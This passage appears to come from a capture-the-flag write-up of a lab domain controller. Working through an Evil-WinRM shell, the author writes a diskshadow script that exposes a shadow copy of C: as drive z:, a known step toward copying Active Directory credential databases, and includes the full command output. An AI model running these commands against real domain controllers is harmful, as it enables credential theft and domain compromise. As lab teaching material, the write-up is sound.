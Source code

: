    set context persistent nowriters
    set metadata c:\programdata\df.cab
    set verbose on
    add volume c: alias df
    create
    expose %df% z:
    

I could also have just started running out of a writable directory, like
`programdata`.

After `unix2dos`, upload and run, and it works:

    
    
    *Evil-WinRM* PS C:\windows\system32> diskshadow /s c:\programdata\vss.dsh
    Microsoft DiskShadow version 1.0
    Copyright (C) 2013 Microsoft Corporation
    On computer:  DC01,  6/9/2020 9:15:49 PM
    
    -> set context persistent nowriters
    -> set metadata c:\programdata\df.cab
    -> set verbose on
    -> add volume c: alias df
    -> create
    
    Alias df for shadow ID {fe96248c-9468-4892-befc-a9ac2dda6a8e} set as environment variable.
    Alias VSS_SHADOW_SET for shadow set ID {e5573ff3-af32-4b6e-961a-8db9a3e76625} set as environment variable.
    Inserted file Manifest.xml into .cab file df.cab
    Inserted file Dis6354.tmp into .cab file df.cab
    
    Querying all shadow copies with the shadow copy set ID {e5573ff3-af32-4b6e-961a-8db9a3e76625}
    
            * Shadow copy ID = {fe96248c-9468-4892-befc-a9ac2dda6a8e}               %df%
                    - Shadow copy set: {e5573ff3-af32-4b6e-961a-8db9a3e76625}       %VSS_SHADOW_SET%
                    - Original count of shadow copies = 1
                    - Original volume name: \\?\Volume{351b4712-0000-0000-0000-602200000000}\ [C:\]
                    - Creation time: 6/9/2020 9:15:50 PM
                    - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                    - Originating machine: DC01.BLACKFIELD.local
                    - Service machine: DC01.BLACKFIELD.local
                    - Not exposed
                    - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                    - Attributes:  No_Auto_Release Persistent No_Writers Differential
    
    Number of shadow copies listed: 1
    -> expose %df% z:
    -> %df% = {fe96248c-9468-4892-befc-a9ac2dda6a8e}
    The shadow copy was successfully exposed as z:\.
    ->
    

#### Success

In summary, to get this script working, I needed to
